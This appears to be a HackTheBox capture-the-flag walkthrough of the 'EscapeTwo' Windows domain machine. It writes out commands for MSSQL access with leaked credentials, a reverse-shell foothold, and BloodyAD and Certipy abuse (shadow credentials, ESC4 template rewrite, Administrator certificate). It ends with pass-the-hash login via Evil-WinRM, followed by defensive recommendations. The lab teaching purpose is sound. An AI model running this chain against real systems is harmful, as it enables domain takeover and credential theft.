


# EscapeTwo HackTheBox Walkthrough

This report presents a professional and methodical breakdown of the **EscapeTwo** Windows domain exploitation chain.  
It covers SMB enumeration, data exfiltration, MSSQL exploitation, lateral movement, and privilege escalation through Active Directory Certificate Services (AD CS) misconfigurations.

---

## 1. Initial Reconnaissance

We began with a full-scope Nmap scan to identify exposed services on the target machine (`10.129.86.231`):

```bash
nmap -p- -Pn 10.129.86.231 -v -T5 --min-rate 1000 --max-rtt-timeout 1000ms --max-retries 5 -oN nmap_ports.txt && sleep 5 && nmap -Pn 10.129.86.231 -sC -sV -v -oN nmap_sVsC.txt && sleep 5 && nmap -T5 -Pn 10.129.86.231 -v --script vuln -oN nmap_vuln.txt
```


Open ports revealed **SMB (445)** and **MSSQL (1433)** services — a strong indicator of a Windows domain host with database integration.

---

## 2. SMB Share Enumeration

Using valid credentials, we enumerated network shares to uncover accessible directories:

```bash
smbclient -L 10.129.86.231
```


Among the discovered shares, the **Accounting** directory contained several `.xlsx` spreadsheet files.


When opened in LibreOffice, the documents appeared to be **password-protected**. We attempted to extract password hashes with `office2john`, but results indicated **file corruption**.



---

## 3. Extracting Data from XLSX Files

Since `.xlsx` files are ZIP archives, we unpacked one using:

```bash
unzip accounting.xlsx -d extracted/
```


Inside the extracted XML data, the `sharedStrings.xml` file exposed **MSSQL database credentials** in plaintext.


---

## 4. MSSQL Exploitation

Using the recovered credentials, we authenticated to the MSSQL server:

```bash
impacket-mssqlclient sa:"MSSQLP@ssw0rd!"@10.129.86.231
```


Command execution was enabled, granting system-level interaction.  
We leveraged a reverse shell payload from [revshells.com](https://revshells.com) to establish an outbound connection.



A successful reverse shell was received, providing our initial foothold.

---

## 5. Local Enumeration & Credential Discovery

While enumerating the local file system, we found an unusual directory:  
`C:\SQL2019\ExpressAdv_ENU`.

Inspecting `sql-Configuration.INI` revealed **plaintext installation credentials**.


Using a **password spray** against known local users (via `net user`), we determined that **ryan** reused this password.  
Logging in as Ryan granted us user-level access.


After establishing a session as Ryan, we successfully retrieved the **user flag**.


---

## 6. Active Directory Enumeration & Privilege Escalation

Using **BloodHound**, we identified that **ryan** had the **WriteOwner** privilege over the **ca_svc** service account.


We exploited this misconfiguration using **BloodyAD** to take ownership and grant ourselves full permissions over `ca_svc`:

```bash
python3 bloodyAD.py -d sequel.htb --host 10.129.86.231 -u ryan -p WqSZAF6CysDQbGb3 set owner ca_svc ryan
python3 bloodyAD.py -d sequel.htb --host 10.129.86.231 -u ryan -p WqSZAF6CysDQbGb3 add genericAll ca_svc ryan
```


Next, we executed a **shadow credential attack** using Certipy to impersonate `ca_svc`:

```bash
certipy shadow auto -u ryan@sequel.htb -p WqSZAF6CysDQbGb3 -account ca_svc -dc-ip 10.129.86.231
```


---

## 7. Exploiting Vulnerable Certificate Templates (ESC4)

We enumerated certificate templates for vulnerabilities and found one susceptible to **ESC4 privilege escalation**:

```bash
certipy find -u ca_svc@sequel.htb -hashes '3b181b914e7a9d5508ea1e20bc2b7fce' -dc-ip 10.129.86.231 -vulnerable -stdout
```


Following the documented attack chain, we first modified the vulnerable template:

```bash
certipy template -u 'ca_svc@sequel.htb' -hashes '3b181b914e7a9d5508ea1e20bc2b7fce' -dc-ip '10.129.86.231' -template 'DunderMifflinAuthentication' -write-default-configuration
```


Then, we requested a new certificate impersonating the **Administrator**:

```bash
certipy req -u 'ca_svc@sequel.htb' -hashes '3b181b914e7a9d5508ea1e20bc2b7fce' -dc-ip '10.129.86.231' -target 10.129.86.231 -ca 'sequel-DC01-CA' -template 'DunderMifflinAuthentication' -upn 'administrator@sequel.htb'
```


Finally, we authenticated as **Administrator** using the newly generated certificate:

```bash
certipy auth -pfx administrator.pfx -domain sequel.htb -u administrator -dc-ip 10.129.86.231
```


We confirmed full **Domain Administrator** access by logging in via **Evil-WinRM**:

```bash
evil-winrm -i 10.129.86.231 -u administrator -H 7a8d4e04986afa8ed4060f75e5a0b3ff
```


---

## 8. Conclusion

This exercise demonstrates a chained exploitation path starting from SMB share leakage to full domain dominance via AD CS misconfiguration.

### Key Takeaways
- **Sensitive credentials** were stored unencrypted in Office documents.  
- **Password reuse** across local accounts enabled lateral movement.  
- **Active Directory privilege misconfigurations** facilitated account takeover.  
- **Vulnerable certificate templates (ESC4)** provided domain administrator privileges.

### Recommendations
- Restrict SMB access and remove sensitive files from shared locations.  
- Use encrypted password managers and avoid credential reuse.  
- Audit AD CS configurations regularly and disable vulnerable templates.  
- Enforce least privilege for all service accounts.  
- Implement centralized credential monitoring and regular security reviews.

---
